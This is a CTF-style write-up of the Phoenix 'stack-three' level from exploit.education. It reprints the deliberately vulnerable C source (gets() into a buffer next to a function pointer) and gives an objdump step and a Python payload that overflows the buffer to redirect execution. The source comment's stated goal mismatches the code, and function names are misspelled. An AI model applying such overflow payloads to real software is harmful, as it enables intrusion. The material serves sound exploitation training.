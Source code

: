 # STACK THREE

## SOURCE CODE

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```
## STRATEGY
We need to fill the buffer with 64 byte of junk and then overwrite *'fp'* with *'coplete_level'* address. But first we need to gain the address of the function with disassembler, we will use objdump

## EXPLOIT
```shell
objdump -d stack_three
```
address of *'complete_function'* is 08048535

```shell
python -c 'import struct; print "A"*64 + struct.pack("I",0x08048535)' | ./stack-three
```
